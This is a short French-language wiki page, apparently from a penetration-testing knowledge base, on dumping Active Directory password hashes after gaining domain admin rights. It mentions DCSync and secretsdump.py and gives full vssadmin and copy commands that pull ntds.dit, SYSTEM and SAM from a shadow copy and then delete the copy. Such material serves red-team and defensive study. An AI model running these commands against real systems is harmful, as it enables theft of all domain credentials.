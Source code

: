 ```yaml
---
title: Dump des hashs du domaine
permalink: /Dump_des_hashs_du_domaine/
---
```


# Dump des hashs du domaine

Il existe de nombreuses méthodes pour récupérer les hashs d'un domaine une fois qu'on a les priviléges d'administration sur le domaine.

## DCSync

On peut utiliser les mécanismes de réplication entre DC pour récupérer des hashs.

Voir:
* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

## Volume Shadow Copy

Il est possible d'utiliser l'utilitaire VSS pour faire une copie du fichier NTDS.dit et SYSTEM qui sont nécessaires pour récupérer les hashs.

``` text
# Créer le Volume Shadow Copy
vssadmin create shadow /for=C:
vssadmin 1.1 – Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001 Microsoft Corp.

Successfully created shadow copy for ‘c:\’
Shadow Copy ID: {e8eb7931-5056-4f7d-a5d7-05c30da3e1b3}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

# Faire des copies des fichiers nécessaires. Il faut remplacer [X] par le bon entier
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .

# Supprimer le Volume Shadow Copy
vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3
```

**Note**: *copy* dans un invite powershell ne fonctionne pas correctement. Mieux vaut tout faire depuis un invite de commande traditionnel.

## Références

### Outils

- [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
